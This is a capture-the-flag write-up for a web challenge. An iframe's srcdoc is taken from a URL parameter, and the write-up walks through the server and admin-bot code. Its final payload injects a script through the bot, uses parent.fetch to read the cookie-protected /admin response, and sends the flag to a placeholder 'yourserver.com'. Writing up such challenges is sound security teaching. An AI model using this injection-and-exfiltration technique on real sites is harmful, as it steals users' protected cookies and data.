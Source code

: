 ## Overview

By inspecting the page you will see a `credentialless` iframe and a script.

```html
<script>
  document
    .querySelector("iframe")
    .setAttribute(
      "srcdoc",
      new URLSearchParams(document.location.search).get("srcdoc")
    );
</script>
```

As you can see you can easly inject JS code into the website by using a payload like: `http://localhost:3000/?srcdoc=<script>alert('0')</script>`

## Finding the flag

The website doesn't request an api, means we have to inspect the source code.

```md
./
├── bot.js
├── build-docker.sh
├── Dockerfile
├── flag.txt
├── index.js
├── package.json
```

- `index.js`

```js
const flag = fs.readFileSync("./flag.txt", "utf8").trim();
```

the flag variable isn't exposed at all, is is only used to verify access to `/admin`

```js
function check(req, res, next) {
  console.log("cookie", req.cookies);
  if (flag === req.cookies?.FLAG) {
    return next();
  } else {
    return res.status(403).send("Forbidden");
  }
}

app.get("/admin", check, (req, res) => {
  res.send(req.cookies?.FLAG ?? "flag{something something}");
});
```

## Observation

there's an endpoint that will let a bot visit the provided url

```js
const { visit } = require("./bot");
/* ... */
app.get("/bot", async (req, res) => {
  if (req.query?.url) await visit(req.query.url);
  res.send("If it's done it's done.");
});
```

- `bot.js`

the bot checks if url starts with `http://` before visiting it and sets the cookie value as the flag

```js
if (!url.startsWith("http://")) {
  throw new Error("invalid url");
}
await page.setCookie({
  name: "FLAG",
  value: flag,
  domain: DOMAIN,
  path: "/",
  httpOnly: true,
  secure: true,
  sameSite: "Lax",
});
```

We can't get the flag via document.cookie because of `httpOnly` and we can't get the flag in a request header because of `sameSite=Lax`.

Since the bot can access `/admin` which returns the flag (cookie) we will let the bot use it to expose the flag value and simply send it to our server.

The iframe is `credentialless` which means it doesn't have access to its regular origin's network, cookies, and storage data, so we will use `parent.fetch` instead of `fetch`

## Payload

```
http://localhost:3000/bot?url=http://127.0.0.1:3000/?srcdoc=<script type="module">
const resp = await parent.fetch("/admin", { credentials: "include" });
fetch(`http://yourserver.com?flag=${await resp.text()}`)
</script>
```

note: replace `http://localhost:3000` with instance ip, and `http://yourserver.com` with your webhook ip.
